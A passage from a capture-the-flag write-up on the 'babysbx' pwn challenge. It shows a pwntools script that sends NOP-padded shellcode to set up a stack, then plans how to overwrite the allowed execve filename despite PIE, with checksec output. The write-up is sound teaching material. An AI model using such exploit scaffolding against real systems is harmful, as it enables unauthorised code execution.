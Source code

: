 Any `PUSH` instruction we try will fail because there's no stack frame set up with `RSP` and `RBP`. For our initial setup code, we can start by creating a stack within the memory region that was allocated for us by setting `RBP` and `RSP` to some values with a couple of bytes in between for our stack.
```python
from pwn import *

elf = ELF("./babysbx")
context.binary = elf

def conn():
    if args.GDB:
        script = """
        b *(main+201)
        c
        """
        p = gdb.debug(elf.path, gdbscript=script)
    elif args.REMOTE:
        p = remote("addr", 1337)
    else:
        p = process(elf.path)
    return p

def run():
    setup_stack = """
    movabs rbp, 0xc0def00
    sub rbp, 0x38
    mov rsp, rbp
    """
    shellcode = asm(setup_stack)
	p = conn()

    p.recvuntil(b'shellcode: ')

    payload = shellcode.ljust(0xfd7, b'\x90')

    p.sendline(payload)
    p.interactive()
```

We also have to make sure to use `ljust` to pad our payload to the desired length before sending it. Otherwise, the buffer will expect more bytes and nothing will get executed. This will get us going for any starter shellcode we want to write.

## Exploit Ideation

It looks like we need to find the address of the variable controlling our allowed filename for execve and find a way to overwrite the string that is currently there. You might be thinking that we already have the address from earlier, but PIE is enabled so we can't rely on any hardcoded addresses.
```bash
$ checksec ./babysbx
[*] '/BlackhatMEAFinals/pwn/babysbx_pwn/babysbx'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
